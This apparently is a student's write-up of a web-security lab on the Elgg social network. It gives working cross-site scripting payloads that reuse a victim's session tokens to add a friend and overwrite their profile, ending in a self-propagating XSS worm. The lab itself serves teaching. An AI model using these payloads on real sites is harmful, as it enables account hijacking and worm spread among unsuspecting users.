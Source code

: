 
## Task 4: Becoming the Victim’s Friend
```JavaScript
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
         // (1)
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
         // (2)
        //Construct the HTTP request to add Samy as a friend.
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token; //FILL IN
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```
1. Explain the purpose of Lines (1) and (2), why are they are needed?
    They are needed to prove the user is authorized
2. If the Elgg application only provide the Editor mode for the “About Me” field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
    No, you cannot launch a successful attack this way

## Task 5: Modifying the Victim’s Profile
The objective of this task is to modify the victim’s profile when the victim visits Samy’s page. Specifically, modify the victim’s “About Me” field. We will write an XSS worm to complete the task. This worm does not self-propagate; in task 6, we will make it self-propagating.

```JavaScript
<script type="text/javascript">
    window.onload = function() {
        //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
        //and Security Token __elgg_token
        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        var description="&description=<p>Samy is my hero</p>";
        //Construct the content of your url.
        var content=token+ts+userName+description+guid; //FILL IN
        var samyGuid="59"; //FILL IN
        var sendurl="http://www.seed-server.com/action/profile/edit"; //FILL IN
        if(elgg.session.user.guid != samyGuid) { //1
        //Create and send Ajax request to modify profile
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```

1. Why do we need Line (1)? Remove this line, and repeat your attack. Report and explain your observation.
    If we do not use Line (1), Samy's description will be overridden and the script will no longer be in the attackers page.

## Task 6: Writing a Self-Propagating XSS Worm
To become a real worm, the malicious JavaScript program should be able to propagate itself. Namely,whenever some people view an infected profile, not only will their profiles be modified, the worm will also be propagated to their profiles, further affecting others who view these newly infected profiles. This way, the more people view the infected profiles, the faster the worm can propagate.

```JavaScript
<script id="worm" type="text/javascript">
    window.onload = function() {
        var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; // (1)
        var jsCode = document.getElementById("worm").innerHTML; // (2)
        var tailTag = "</" + "script>"; // (3)
        var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); // (4)
        //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
        //and Security Token __elgg_token
        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        var description="&description="+wormCode+"<p>Samy is my hero</p>";
        //Construct the content of your url.
        var content=token+ts+userName+description+guid; //FILL IN
        var samyGuid="59"; //FILL IN
        var sendurl="http://www.seed-server.com/action/profile/edit"; //FILL IN
        if(elgg.session.user.guid != samyGuid) { //1
            //Create and send Ajax request to modify profile
            var Ajax=null;
            Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send(content);
        }

    }
</script>
```
